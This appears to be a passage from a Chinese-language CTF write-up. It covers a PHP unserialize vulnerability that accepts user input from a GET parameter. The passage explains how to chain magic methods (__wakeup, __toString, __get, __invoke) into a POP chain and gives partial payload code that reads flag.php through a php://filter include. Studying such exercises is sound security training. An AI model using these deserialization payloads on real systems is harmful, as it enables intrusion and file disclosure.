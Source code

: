 ```php
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

简单反序列化 pop 链构造, learn from 那里是介绍魔术方法的文章, 已经无法访问了, 但是不影响做题

这题的利用点是 Modifier 类的 append 方法, 通过文件包含配合伪协议读取 flag.php 的内容

触发的前提是 \_\_invoke, 即以函数形式调用, 然后我们可以发现这个调用存在于 Test 类的 \_\_get 方法中

\_\_get 的前提是访问一个不存在的属性, 而在 Show 类的 \_\_toString 方法里面存在着可以利用的语句 `$this->str->source`

然后 \_\_wakeup 的 preg\_match 函数可以触发 \_\_toString

写的时候把利用链倒过来写就行了

payload

```php
<?php

class Modifier{
    protected $var = 'php://filter/convert.base64-encode/resource=flag.php';
}

class Test{
    public $p;
}

class Show{
    public $source;
    public $str;
}


$d = new Modifier();

$c = new Test();
$c->p = $d;

$b = new Show();
$b->str = $c;

$a = new Show();
```